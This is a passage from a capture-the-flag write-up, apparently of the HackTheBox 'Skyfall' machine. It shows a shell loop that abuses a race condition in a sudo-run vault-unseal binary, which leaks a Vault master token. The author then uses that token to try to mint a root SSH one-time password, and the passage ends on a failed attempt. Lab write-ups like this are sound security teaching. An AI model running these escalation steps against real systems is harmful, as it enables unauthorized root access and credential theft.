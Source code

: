 ```bash
askyy@skyfall:/tmp$ cd /tmp/racecondition
askyy@skyfall:/tmp/racecondition$ while true; do (sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -vd) &>/dev/null;done
```

It looks like this:

![race condition vault unseal](/assets/images/Skyfall/race-condition-vault-unseal.png)

After running those, in the output of the second terminal, I can see the master token:

```bash
2024/08/22 16:36:09 Initializing logger...
2024/08/22 16:36:09 Reading: /etc/vault-unseal.yaml
2024/08/22 16:36:09 Security Risk!
2024/08/22 16:36:09 Master token found in config: hvs.I0ewVsmaKU1SwVZAKR3T0mmG
2024/08/22 16:36:09 Found Vault node: http://prd23-vault-internal.skyfall.htb
2024/08/22 16:36:09 Check interval: 5s
2024/08/22 16:36:09 Max checks: 5
2024/08/22 16:36:09 Establishing connection to Vault...
2024/08/22 16:36:09 Successfully connected to Vault: http://prd23-vault-internal.skyfall.htb
2024/08/22 16:36:09 Checking seal status
2024/08/22 16:36:09 Vault sealed: false
```

So I will export it in my machine and connect as root:

```bash
❯ export VAULT_ADDR="http://prd23-vault-internal.skyfall.htb"
❯ export VAULT_TOKEN="hvs.I0ewVsmaKU1SwVZAKR3T0mmG"
❯ vault list ssh/roles
Keys
----
admin_otp_key_role
dev_otp_key_role
❯ vault ssh -role dev_otp_key_role -mode otp -strict-host-key-checking no root@skyfall.htb
failed to generate credential: failed to get credentials: Error making API request.

URL: PUT http://prd23-vault-internal.skyfall.htb/v1/ssh/creds/dev_otp_key_role
Code: 400. Errors:

* Username is not present is allowed users list
```
